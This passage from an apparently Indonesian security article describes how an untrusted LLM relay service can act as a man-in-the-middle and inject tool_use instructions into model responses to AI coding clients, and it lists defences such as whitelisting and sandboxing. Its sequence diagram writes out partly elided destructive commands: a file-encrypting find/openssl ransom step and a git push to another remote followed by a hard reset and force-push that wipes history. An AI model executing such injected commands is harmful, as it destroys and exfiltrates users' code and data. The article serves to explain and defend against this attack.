 5. **Eksekusi Pengguna**: Pengguna mungkin tidak memeriksa kode secara hati-hati, atau karena mempercayai model langsung menyalin dan menjalankan. Setelah dijalankan, informasi sensitif pengguna (seperti API Keys yang tersimpan dalam variabel lingkungan) mungkin dikirim keluar.

### Cara Pencegahan

* **Berhati-hati Memilih Layanan Perantara**: Ini adalah langkah pencegahan paling dasar. Prioritaskan layanan resmi atau layanan yang memiliki reputasi baik.
* **Tambahkan Daftar Putih Instruksi Tool Use di Sisi Klien**: Jika mengembangkan klien sendiri, sebaiknya melakukan verifikasi ketat terhadap instruksi `tool_use` yang dikembalikan model, hanya mengizinkan eksekusi metode yang diprediksi dan aman.
* **Tinjau Kode yang Dihasilkan Model**: Harus memeriksa kode yang dibuat AI, terutama ketika kode tersebut melibatkan sistem file, permintaan jaringan, atau perintah sistem.
* **Jalankan Alat Bantuan AI dalam Lingkungan Sandboxing atau Kontainer**: Membuat lingkungan pengembangan khusus, memisahkan lingkungan pengembangan dari lingkungan harian, mengurangi kemungkinan paparan informasi sensitif.
* **Eksekusi Kode dalam Sandboxing atau Kontainer**: Tempatkan kode yang dihasilkan AI atau alat klien yang memerlukan Tool Use dalam lingkungan terisolasi (seperti Docker), membatasi akses file system dan jaringan sebagai garis pertahanan terakhir.

## Risiko Perampasan Data

Risiko pengambilan informasi lebih jauh lagi adalah perampasan data. Operator tidak hanya puas mengambil informasi, tetapi langsung mempengaruhi data atau aset pengguna. Ini juga dapat memanfaatkan layanan perantara sebagai jembatan, melalui injeksi instruksi `tool_use` tak terduga.

```mermaid
sequenceDiagram
    participant User as Pengguna
    participant Client as Klien(Plugin IDE)
    participant MitMRouters as Layanan Perantara Tidak Aman (MITM)
    participant LLM as Layanan Model Besar
    participant ThirdParty as Penyerang

    User->>Client: Masukkan Instruksi Normal (misal "Tolong Refaktor Kode")
    Client->>MitMRouters: Kirim Permintaan API
    MitMRouters->>LLM: Teruskan Permintaan
    LLM-->>MitMRouters: Kembalikan Respons Normal (mungkin berisi Tool Use sah)
    
    MitMRouters->>MitMRouters: Injeksi Instruksi Perampasan Data
    MitMRouters->>Client: Kembalikan Respons yang Dimanipulasi

    alt Cara I: Enkripsi File
        Client->>Client: Jalankan Tool Use tak terduga: <br> find . -type f -name "*.js" -exec openssl ...
        Note right of Client: File proyek pengguna terenkripsi, <br> File asli dihapus
        Client->>User: Tampilkan Informasi Khusus: <br> "File Anda telah terenkripsi, <br>Silakan Hubungi..."
    end

    alt Cara II: Kontrol Repositori Kode
        Client->>Client: Jalankan Tool Use tak terduga (git): <br> 1. git remote add backup ... <br> 2. git push backup master <br> 3. git reset --hard HEAD~100 <br> 4. git push origin master --force
        Note right of Client: Riwayat kode lokal dan jarak jauh dihapus
        Client->>User: Tampilkan Informasi Khusus: <br> "Repositori kode Anda dikosongkan, <br>Silakan Hubungi... untuk pemulihan"
    end
```
